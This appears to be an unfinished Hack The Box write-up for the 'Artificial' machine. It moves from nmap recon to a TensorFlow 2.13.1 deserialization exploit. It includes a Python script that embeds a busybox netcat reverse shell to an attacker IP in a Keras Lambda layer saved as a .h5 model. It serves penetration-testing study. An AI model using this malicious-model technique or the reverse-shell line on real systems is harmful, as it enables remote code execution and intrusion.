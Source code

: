 starting with initial recon 

```
nmap -sV -sC -oN nmap.txt  -p- 10.10.11.74 --min-rate=5000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 16:21 CET
Nmap scan report for 10.10.11.74 (10.10.11.74)
Host is up (0.68s latency).
Not shown: 48960 filtered tcp ports (no-response), 16573 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.67 seconds
```

adding the domain to our `/etc/hosts `

`sudo echo "10.10.11.74     artificial.htb" >> /etc/hosts`

simple ass looking ui  

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162502.png">

registering a new account and logging in with it 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162718.png">

this will lead us to the page where it present us with this .. 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017162855.png">

checking the `requirement.txt` and `Dockerfile` 

`Dockerfile`
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

`requirements.txt`
```
tensorflow-cpu==2.13.1
```

this version of tensorflow library might have some vurnabilitys .  

after searching i found this 

[https://github.com/advisories/GHSA-x4wf-678h-2pmq](https://github.com/advisories/GHSA-x4wf-678h-2pmq)

looking for POC to recreate the exploit 

[https://mastersplinter.work/research/tensorflow-rce/](https://mastersplinter.work/research/tensorflow-rce/)

the idea is to generate a `.h5` model that contains our malicious command so we can import it and get a reverse shell 

to recreate the exploit we need first to install tensorflow on our machine  (which is annoying task) 


```
import tensorflow as tf

def exploit(x):
    import os
    os.system("busybox nc 10.10.15.53 4444 -e /bin/sh")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

I always use busybox since its found on every linux distro . 

### generating our model 
```cmd
python3 exploit.py 
```

opening a listener on our machine 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017165134.png">

and finally importing our model will give us a shell 

<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/artificial/assets/Pasted image 20251017184622.png">

it didnt work ... 



